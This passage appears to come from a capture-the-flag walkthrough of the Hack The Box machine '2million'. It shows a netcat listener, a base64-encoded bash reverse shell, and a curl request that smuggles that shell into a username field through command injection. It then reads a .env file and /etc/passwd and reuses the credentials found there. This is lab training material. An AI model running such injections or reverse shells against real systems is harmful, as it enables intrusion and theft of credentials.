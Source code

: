 ```ad-hint

1. Setting up our listener: `nc -lvnp 4444`
2. Sending the following payload: `bash -i >& /dev/tcp/OUR_VPN_IP/LISTENER_PORT 0>&1`, for this case: `bash -i >& /dev/tcp/10.10.15.36/4444 0>&1`
3. Encoding the payload in base64, for this case, this was my encoded payload: `YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNS4zNi80NDQ0IDA+JjE=`
4. Sending the command injection and getting the shell.

#### Output
----

Sent payload: `curl -s -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=lc3vb3f7nhk6krnqls1oc2t93t" --header "Content-Type: application/json" --data '{"username":"testhackerUsername;echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNS4zNi80NDQ0IDA+JjE= | base64 -d | bash;"}'`

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250106173523.png)
```

We got our shell, let's [[CYBERSECURITY/Commands/Shell Tricks/STABLE SHELL.md|stabilize it]]: 

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250106173633.png)

Nice, now we have an stable shell!


# PRIVILEGE ESCALATION
---


In order to perform privilege escalation, let's begin with a simple enumeration of the `/var/www/html` directory we are currently in:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250106173802.png)

We see a `.env` file, a **`.env` file** is a simple text file used to store environment variables for an application. These files are commonly used in software development to manage configuration settings in a structured and secure way.

Let's read it:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250106173902.png)

Seems like we have an `admin` user in this machine, let's read `/etc/passwd` to check if its true:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250106174006.png)

It is indeed true, now that we know it exists, we can log into ssh using those credentials:

```ad-note

##### Credentials:
---
DB_USERNAME=`admin`
DB_PASSWORD=`SuperDuperPass123`
```
